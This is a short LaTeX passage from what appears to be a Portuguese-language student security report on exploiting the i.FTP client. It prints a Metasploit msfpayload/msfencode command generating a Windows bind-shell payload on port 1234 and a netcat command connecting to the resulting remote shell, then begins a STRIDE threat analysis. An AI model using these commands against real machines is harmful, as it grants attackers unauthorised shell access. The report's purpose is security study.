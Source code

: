 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}
   ruby msfpayload windows/shell\_bind\_tcp EXITFUNC=seh
     LPORT=1234 R | ruby msfencode -a x86
     -b `\x00\x0a\x0d\x26' -t c
\end{lstlisting}


que abre um porto TCP para a shell da máquina atacada no porto 1234. O atacante tem apenas que se ligar a esse porto para ter acesso à máquina:

\begin{lstlisting}
   nc a.b.c.d 1234
\end{lstlisting}

O resultado disto pode ser visto na Figura~\ref{fig:remote_shell}. Correndo o comando \texttt{whoami} é possível verificar que a shell está a ser corrida como o user que lançou o i.FTP.

\begin{figure}[H]
	\includegraphics[width=\linewidth]{remote_shell}
	\caption{Acesso remoto à máquina atacada}
	\label{fig:remote_shell}
\end{figure}

\section{Análise STRIDE}

De maneira a melhor explorar as vulnerabilidades presentes, verifica-se que as ameaças mais preponderantes são:
\end{document}
